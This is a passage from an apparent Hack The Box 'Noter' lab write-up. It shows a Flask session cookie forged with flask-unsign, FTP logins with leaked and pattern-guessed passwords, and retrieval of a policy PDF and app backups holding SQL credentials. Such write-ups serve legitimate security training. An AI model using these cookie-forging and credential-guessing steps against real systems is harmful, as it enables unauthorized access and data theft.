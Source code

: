 ```console                                                                                                                                                        
┌──(bitis㉿workstation)-[~/htb/Machines/noter]
└─$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret 'secret123'
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YrdHUg.Pp4Ss88nFXoNRA5W7jHUkzkZ-9c
```

Using this cookie we can go to the "blue" notes. In one of the notes are the ftp credentials `blue:blue@Noter!` 

![blue note](note.png)

While scoping out the ftp service we find a pdf.
```
┌──(bitis㉿workstation)-[~/htb/Machines/noter]
└─$ ftp noter.htb
Connected to noter.htb.
220 (vsFTPd 3.0.3)
Name (noter.htb:bitis): blue
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||15193|)
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
-rw-r--r--    1 1002     1002        12569 Dec 24  2021 policy.pdf
226 Directory send OK.
ftp> get policy.pdf
local: policy.pdf remote: policy.pdf
229 Entering Extended Passive Mode (|||46037|)
150 Opening BINARY mode data connection for policy.pdf (12569 bytes).
100% |***********************************************************************************************************************************************************************************************| 12569      149.00 KiB/s    00:00 ETA
226 Transfer complete.
12569 bytes received in 00:00 (51.96 KiB/s)
```
The pdf contains the line: `4. Default user-password generated by the application is in the format of "username@site_name!" (This applies to all your applications)`. We can also see that the pdf was written by ftp_admin. If we try to login as ftp_admin on the ftp service while making sure to follow the default password scheme we get access:

```
┌──(bitis㉿workstation)-[~/htb/Machines/noter]
└─$ ftp noter.htb 
Connected to noter.htb.
220 (vsFTPd 3.0.3)
Name (noter.htb:bitis): ftp_admin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||31864|)
150 Here comes the directory listing.
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01  2021 app_backup_1638395546.zip
226 Directory send OK.
ftp> 
```
Downloading the two app backups and analyzing them, we immediatly see something interesting. One of the backups contains SQL credentials:
